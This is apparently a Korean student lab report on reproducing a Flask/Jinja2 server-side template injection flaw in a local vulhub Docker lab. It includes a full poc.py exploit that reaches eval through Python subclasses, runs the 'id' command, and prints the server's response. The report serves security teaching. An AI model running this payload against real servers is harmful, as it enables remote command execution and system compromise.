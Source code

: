 # Flask (Jinja2) SSTI 취약점 검증 및 PoC 실습 보고서
> 화이트햇 스쿨 3기 - 최아현(5975)

> 생성한 Pull Request 링크 : https://github.com/gunh0/kr-vulhub/pull/272

<br/>

## 1. SSTI 개념 증명 해보기 (poc코드 수정 전)

과제에서 제공받은 깃허브 링크에서 **Flask (Jinja2) SSTI (Server Side Template Injection) 취약점**을 선택하였고, 이 취약점을 실습해보기 위하여 해당 깃허브 링크를 fork하여 내 github에 복사하였다.

### 1.1 실습 환경 구축

- docker desktop 설치
- Git-2.49.0-64-bit 설치
- python 3.13.3 도 설치
  
### 1.2 프로젝트 clone 및 실행

다음 명령어를 통하여 내 GitHub에서 Fork된 kr-vulhub 클론한 뒤 해당 폴더로 이동하였다.
<br/>
1. git clone https://github.com/ChoiAh/kr-vulhub.git
2. cd kr-vulhub/Flask/SSTI

### 1.3 Docker로 Flask 서버 실행하기
<docker-compose up -d>명령어를 통하여 Flask 서버를 실행하였다.
![docker-compose up -d 실행결과](./1.png)
<br/>
### 1.4 브라우저에서 flask 서버 접속
브라우저에서 서버를 접속하여 결과를 확인해보았다.
![서버 접속 실행결과](./2.png)
1. http://localhost:8000/?name={{7*7}} → Hello 49 출력 확인
2. http://localhost:8000/?name={{5*5}} → Hello 25 출력 확인

### 1.5 출력 결과 분석
이건 서버가 내가 입력한 값(ex. {7*7} / {5*5})을 받아서 내부에서 Flask 서버가 이걸 Jinja2 템플릿 문법으로 처리해서 입력된 수식을 실제로 계산한 결과를 출력하여 보여주는 것을 확인하였다. 이는 서버가 사용자의 입력을 문자열로 인식하여 처리하는 것이 아닌 python연산처럼 처리하고 실행한 것을 의미한다. 
<br/>
이는 서버의 템플릿 엔진이 외부의 사용자 입력을 검증하지 않고 실행하여 발생한 것으로 위의 Flask 서버에는 SSTI 취약점이 존재한다. 이러한 단순 수식 계산에서 더 나아가 시스템 명령어를 실행할 수 있는지를 확인해보기 위하여 이어지는 부분에서 공격 코드를 작성하여 실습을 진행해보고자 한다.

## 2. 공격코드 (poc.py) 실행
Flask 서버에 실제 시스템 명령어 삽입하기 (PoC 수행)
<br/>
### 2.1 poc.py 작성
vs code에서 C:\Users\chloe\kr-vulhub\Flask\SSTI 이 경로에 poc.py라는 이름의 py파일을 생성하고 아래의 코드를 입력해 넣었다.
```python
from urllib import parse
import requests

script = '__import__("os").popen("id").read()'
# SSTI 취약점 유발 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)

print("<SSTI 취약점 유발 코드>")
print(value)
print()

# SSTI를 수행하는 URL 생성
query = [("name", value)]
url = "http://localhost:8000/?" + parse.urlencode(query)
print("<요청 URL>")
print(url)
print()

# 실제 요청 전송
response = requests.get(url)
print("<서버의 응답>")
print(response.text)
```

![vs code로 poc.py작성](./3.png)

### 2.2 poc.py 실행
py poc.py명령을 통하여 위에서 작성한 코드를 실행해보았다.
![poc.py 실행결과](./4.png)
위의 사진처럼 출력이 되었다.
 > uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root)

### 2.3 출력값의 의미
- uid=33(www-data)  → 현재 FLASK서버가  uid=33(www-data) 계정으로 실행중이라는 의미
- gid=33(www-data) →   현재 FLASK서버가  gid=33(www-data) 그룹 계정으로 실행중이라는 의미
- groups=33(www-data),0(root) → 	www-data 그룹 외에도 root 그룹(0)에도 속해 있음 (→ root 권한 보유)


### 2.4 출력 결과 분석
위의 실습 실행 결과를 통하여 템플릿 인젝션을 통하여 서버에서 임의의 시스템 명령어가 실행이 가능함을 확인하였다.
공격자는 id 명령어를 통해 서버 내부의 사용자 계정 정보를 조회할 수 있었으며, 해당 Flask 서버가 uid=33(www-data) 계정으로 실행되고 있음을 확인하였다. 또한, gid=33(www-data) 그룹 소속일 뿐만 아니라, groups=33(www-data),0(root) 결과를 통해 서버가 root 그룹(0) 에도 속해 있어 root 권한을 포함하고 있음을 알 수 있었다.

이처럼 SSTI(Server Side Template Injection) 취약점은 정보유출을 넘어 서버의 권한 탈취 등의 심각한 보안 위협으로 이어질 수 있다. 따라서 Flask와 같은 서버 운영 시에는 템플릿 인젝션 취약점 여부를 반드시 점검하고, 사용자 입력값에 대한 철저한 검증을 수행함으로써 SSTI 취약점이 발생하지 않도록 해야한다.


## 3. 결론
poc.py 스크립트를 통하여 SSTI(Server Side Template Injection) 취약점이 존재하는 FLASK서버에 악의적인 템플릿 코드<`__import__("os").popen("id").read()` 명령어를 실행하는 코드>를 삽입하였다.
따라서 서버는 해당 코드를 실행하여 현재 사용자의 UID, GID, groups 정보를 알려주었다. 
이 실습을 통하여 flask 서버의 SSTI 취약점을 통하여 원격 코드 실행(RCE, Remote Code Execution)수준의 제어가 가능함을 확인할 수 있었으며 공격자는 name 파라미터에 Jinja2 템플릿 문법을 삽입함으로써 서버 측에서 Python 코드가 실행되도록 유도할 수 있었다. 즉, 단순 수식 평가뿐 아니라 시스템 명령어인 id같은 명령어까지 실행할 수 있어 서버의 중요 정보인 UID, GID 정보가 노출되는 SSTI 취약점을 확인해 보았다.
이러한 취약점의 경우**원격 명령 실행(RCE)** 으로 이어질 수 있기에 심각한 보안 위협이며, 이에 대한 조치가 필요함을 느꼈다.
